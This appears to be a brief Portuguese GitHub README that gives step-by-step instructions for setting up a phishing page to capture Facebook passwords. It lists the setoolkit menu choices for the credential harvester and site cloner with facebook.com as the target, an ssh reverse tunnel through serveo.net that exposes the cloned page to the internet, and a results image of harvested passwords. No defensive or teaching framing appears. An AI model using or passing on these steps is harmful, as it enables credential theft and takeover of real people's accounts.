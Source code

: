 # Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
> ssh -R 80:localhost:80 serveo.net

### Resutados

![Alt text](./passwd.png "Optional title")
